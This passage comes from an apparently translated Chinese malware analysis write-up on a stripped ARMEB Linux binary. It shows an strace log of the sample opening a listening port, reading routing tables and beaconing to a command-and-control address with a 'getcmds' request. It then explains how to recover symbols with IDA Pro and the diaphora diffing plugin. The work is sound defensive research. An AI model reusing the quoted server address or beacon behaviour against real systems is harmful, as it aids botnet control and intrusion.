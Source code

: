 ```
1080  setsockopt(10&lt;socket:[22231]&gt;, SOL_SOCKET, SO_REUSEADDR, [1], 4) = 0
1080  bind(10&lt;socket:[22231]&gt;, `{`sa_family=AF_INET, sin_port=htons(11833), sin_addr=inet_addr("0.0.0.0")`}`, 16) = 0
1080  listen(10&lt;socket:[22231]&gt;, 1024)  = 0
1080  open("/proc/net/route", O_RDONLY|O_LARGEFILE) = 11&lt;/proc/net/route&gt;
(...)
1080  gettimeofday(`{`500, 318385`}`, NULL) = 0
1080  _newselect(32, [8&lt;pipe:[22229]&gt; 10&lt;socket:[22231]&gt;], [], NULL, `{`0, 959999`}`) = 0 (Timeout)
1080  gettimeofday(`{`501, 278401`}`, NULL) = 0
1080  socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 11&lt;socket:[22282]&gt;
1080  ioctl(11&lt;socket:[22282]&gt;, FIONBIO, [1]) = 0
1080  connect(11&lt;socket:[22282]&gt;, `{`sa_family=AF_INET, sin_port=htons(1055), sin_addr=inet_addr("80.87.205.92")`}`, 16) = -1 ENETUNREACH (Network is unreachable)
1080  close(11&lt;socket:[22282]&gt;)         = 0
1080  write(0&lt;socket:[4448]&gt;, "GET /getcmds?bid=notgenerated HTTP/1.1rnConnectio
```

为了理解恶意程序是怎么工作的，我们把人工和动态分析进行结合。是时候使用IDA pro进行分析二进制文件了。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01107f8ab18b7e2ee8.gif)

二进制文件是精简的， IDA pro 一开始没有分析出ARMEB的常用函数调用。我们可以使用 [@matalaz](https://github.com/joxeankoret/diaphora)'s [diaphora](https://github.com/joxeankoret/diaphora) 的diffing插件来得到所有的符号而不是话费数小时进行手工检查。

首先导出 uClibc的Puma5工具链的符号。 从[这里](https://github.com/bmaia/cross-utils/blob/master/armeb/puma5_toolchain/armeb-linux.tar.xz)下载预编译的工具链，使用IDA pro打开 “armeb-linuxti-puma5liblibuClibc-0.9.29.so”库文件。 选择 FIle/Script(ALT+F7), 加载diaphora.py， 选择一个位置将IDA数据库导出成SQLite格式， 选择Export only non-IDA generated functions然后点击 OK。

当完成后，关闭当前IDA 数据库， 打开arm_puma5二进制文件。再次运行diaphora.py脚本，选择SQLite数据库进行比较

[![](https://p5.ssl.qhimg.com/t01daf4367341635d78.png)](https://p5.ssl.qhimg.com/t01daf4367341635d78.png)

过一会后，会显示连个数据库中各种不能匹配的函数的选项，比如“Best”“Partial”和“ Unreliable”匹配项。

浏览“Best matches”项，右击列表然后选择“Import *all* functions”，然后结束后选择不重新启动比较进程。前往“Partial matches”项，删除所有比例比较低的(我把低于0.8的都删掉了)，右击列表选择”Import all data for sub_* function"。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0187f1141c3946df06.png)

IDA的 string窗口显示很多和Lua脚本语言相关的信息。 因此，我也交叉编译了一份[Lua的ARMEB版本](https://github.com/bmaia/cross-utils/tree/master/armeb/lua),将 lua二进制载入IDA pro，重复和[diaphora](https://github.com/joxeankoret/diaphora)的比较过程。

[![](https://p5.ssl.qhimg.com/t01c2bd35b4560b108d.png)](https://p5.ssl.qhimg.com/t01c2bd35b4560b108d.png)

差不多完成了，如果你google一些调试信息的话，你会找到一份删除的粘贴内容的快照。

[![](https://p0.ssl.qhimg.com/t01ea78802a42687fe0.png)](https://p0.ssl.qhimg.com/t01ea78802a42687fe0.png)
